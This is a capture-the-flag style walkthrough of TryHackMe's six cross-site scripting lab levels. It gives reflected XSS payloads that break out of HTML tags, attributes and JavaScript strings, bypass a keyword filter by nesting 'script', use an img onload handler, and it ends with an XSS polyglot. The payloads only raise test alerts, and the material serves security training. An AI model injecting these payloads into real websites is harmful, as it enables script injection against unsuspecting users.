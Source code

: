 # XSS
From THM XSS Labs

https://vine-sea-2c5.notion.site/Script-Page-1243b89759a6807eb5deef23b5c92518?pvs=4

# Script Page

The aim for each level will be to execute the JavaScript alert function with the string **XXXTESTXXX.**

```bash
**<script>alert('XXXTESTXXX');</script>**
```

## **Level One:**

If you view the Page Source, You'll see your name reflected in the code:

```jsx
<div class="text-center">
	<h2>hello, tester</h2>
</div>
```

Instead of entering your name, we're going to try entering the following JavaScript Payload:

`**Try entering the payload:**`

```bash
**<script>alert('XXXTESTXXX');</script>**
```

Now, when you click the enter button, you'll get an alert popup with the string **XXXTESTXXX,** and the page source will look like the following:

```jsx
<div class="text-center">
	<h2>hello, <script>alert('**XXXTESTXXX**');</script></h2>
</div>
```

Then, you'll receive a confirmation message that your payload was successful.

## **Level Two:**

Like the previous level, you're being asked again to enter your name. This time, when clicking enter, your name is reflected in an input tag instead:

Viewing the page source, you can see your name reflected inside the value attribute of the input tag:

```jsx
<div class="text-center">
	<h2>Hello, <input value="tester"></h2>
</div>
```

It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we must escape the input tag first so the payload can run properly. You can do this with the following payload.

`**Try entering the payload:**`

```bash
**"><script>alert('XXXTESTXXX');</script>**
```

The critical part of the payload is the **`">`,** which closes the value parameter and the input tag.

This now closes the input tag properly and allows the JavaScript payload to run:

`**Try entering the payload:**`

```jsx
<div class="text-center">
	<h2>Hello, <input value=""><script>alert('XXXTESTXXX');</script>"></h2>
</div>
```

When you click the enter button, an alert popup with the string THM will appear. Then, you'll receive a confirmation message that your payload was successful.

## **Level Three:**

You're presented with another form asking for your name. As in the previous level, your name is reflected inside an HTML tag, this time, the text area tag.

We'll have to escape the text area tag a little differently from the input one (in Level Two) by using the following payload:

`**T**ry entering the payload:**`

```bash
**</textarea><script>alert('XXXTESTXXX');</script>**
```

This turns this:

```jsx
<div class="text-center">
	<h2>Hello, <textarea>tester</textarea></h2>
</div>
```

Into This:

```jsx
<div class="text-center">
	<h2>Hello, <textarea></textarea><script>alert('**XXTESTXX**');</script></textarea></h2>
</div>
```

The critical part of the above payload is **`</textarea>`**, which causes the textarea element to close so the script will run.

An alert popup with “**XXXTESTXXX**” will appear when you click the enter button. 

## **Level Four:**

Entering your name into the form will reflect it on the page. This level looks similar to level one, but upon inspecting the page source, you'll see that your name is reflected in some JavaScript code.

```jsx
<script>
	document.getElementsByClassName('name')[0].innerHTML='tester';
</script>
```

You'll have to escape the existing JavaScript command so you're able to run your code; you can do this with the following payload :

`**Try entering the payload:**`

```bash
**';alert('XXXTESTXXX');//**
```

 The screenshot below shows that you will execute your code. The **`'`** closes the field specifying the name, then**`;`** signifies the end of the current command, and the **`//`** at the end makes anything after it a comment rather than executable code.

```jsx
<script>
	document.getElementsByClassName('name')[0].innerHTML='';alert('**XXXTESTXXX');//';**
</script>
```

When you click the enter button, an alert popup with the string THM will appear. Then, you'll receive a confirmation message that your payload was successful.

## **Level Five:**

This level looks the same as level one, and your name is reflected in the same place. But if you try the **`<script>alert('`XXXTESTXXX`');</script>`** payload, it won't work. When you view the page source, you'll see why.

```jsx
<div class="text-center">
	<h2>Hello, <>alert('**XXXTESTXXX**');</></h2>
</div>
```

The word **`script`** is removed from your payload because a filter strips out any potentially dangerous words.

When a word gets removed from a string, there's a helpful trick that you can try.

**Original Payload:**

```bash
**<sscriptcript>alert('XXXTESTXXX');</sscriptcript>**
```

**Text to be removed (by the filter):**

```bash
**<sscriptcript>alert('XXXTESTXXX');</sscriptcript>**
```

**Final Payload (after passing the filter):**

```bash
**<script>alert('XXXTESTXXX');</script>**
```

 `**T**ry entering the payload:**`

```bash
 **<sscriptcript>alert('XXXTESTXXX');</sscriptcript>**
```

 When you click the enter button, an alert popup with “XXXTESTXX” will appear. Then, you'll receive a confirmation message that your payload was successful.

## **Level Six:**

Similar to level two, where we had to escape from the value attribute of an input tag, we can try:

```bash
**"><script>alert('XXXTESTXXX');</script>**
```

**But that doesn't work. Let's inspect the page source to see why that doesn't work.

```jsx
<div class="text-center">
		<h2>Your Picture</h2>
		<img src=""scriptalert('XXXTESTXXX');/script">
</div>
```

You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. The onload event executes your chosen code once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this:

`**Try entering the payload:**`

```bash
**/images/cat.jpg" onload="alert('XXXTESTXXX');**
```

 Then, view the page source, and you'll see how this will work.

```jsx
<div class="text-center">
	<h2>Your Picture</h2>
	<img src="/images/cat.jpg" onload="alert('XXXTESTXXX');">
</div>
```

When you click the enter button, an alert popup with the “XXXTESTXX” string will appear.

## **Polyglots:**

An XSS polyglot is a string of text that can escape attributes and tags and bypass filters. You could have used the polyglot below on all six levels you've just completed, and it would have executed the code successfully.

`**Try entering the payload:**`

```jsx
**jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XXXTESTXXX') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XXXTESTXXX')//>\x3e**
```

---

[https://vine-sea-2c5.notion.site/Script-Page-1243b89759a6807eb5deef23b5c92518?pvs=4](https://www.notion.so/Script-Page-1243b89759a6807eb5deef23b5c92518?pvs=21)
